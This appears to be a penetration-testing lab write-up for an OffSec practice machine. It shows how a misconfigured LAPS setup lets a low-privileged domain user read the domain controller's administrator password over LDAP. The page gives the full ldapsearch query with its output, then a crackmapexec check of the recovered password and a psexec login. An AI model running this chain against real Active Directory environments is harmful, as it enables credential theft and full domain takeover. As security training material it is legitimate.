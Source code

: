 ```yaml
---
description: Exploiting misconfigured LAPS service.
---
```


# Misconfigured LDAP

```
C:\Program Files\LAPS>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0A26-9DC1
 Directory of C:\Program Files\LAPS

11/03/2020  10:59 PM    <DIR>          .
11/03/2020  10:59 PM    <DIR>          ..
09/22/2016  09:02 AM            64,664 AdmPwd.UI.exe
09/22/2016  09:02 AM            33,952 AdmPwd.Utils.dll
11/03/2020  10:59 PM    <DIR>          CSE
               2 File(s)         98,616 bytes
               3 Dir(s)  13,020,606,464 bytes free
```

Its possible that LAPS or LDAP has been misconfigured enough to potentially contains the computer passwords for computer object in AD. Knowing this we can go back and search LDAP with the credentials with have specifically looking for the ms-Mcs-AdmPwd attribute.

```
$ ldapsearch -x -h 192.168.99.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 

# extended LDIF
#
# LDAPv3
# base <dc=hutch,dc=offsec> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# HUTCHDC, Domain Controllers, hutch.offsec
dn: CN=HUTCHDC,OU=Domain Controllers,DC=hutch,DC=offsec
ms-Mcs-AdmPwd: k)zu03O#915M7K

# search reference
ref: ldap://ForestDnsZones.hutch.offsec/DC=ForestDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://DomainDnsZones.hutch.offsec/DC=DomainDnsZones,DC=hutch,DC=offsec

# search reference
ref: ldap://hutch.offsec/CN=Configuration,DC=hutch,DC=offsec

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

We can see for the domain controller the LAPS password set is **k)zu03O#915M7K**

I then confirmed the credentials with crackmapexec against LDAP using the local administrator account and was given successful confirmation.

```
$ crackmapexec ldap 192.168.99.122 -d hutch.offsec -u administrator -p 'k)zu03O#915M7K' --kdcHost 192.168.99.122
LDAP        192.168.99.122  389    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
LDAP        192.168.99.122  389    HUTCHDC          [+] hutch.offsec\administrator:k)zu03O#915M7K
```

```
$ psexec.py hutch.offsec/administrator@192.168.99.122                         1 ⨯
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
Password: k)zu03O#915M7K
```
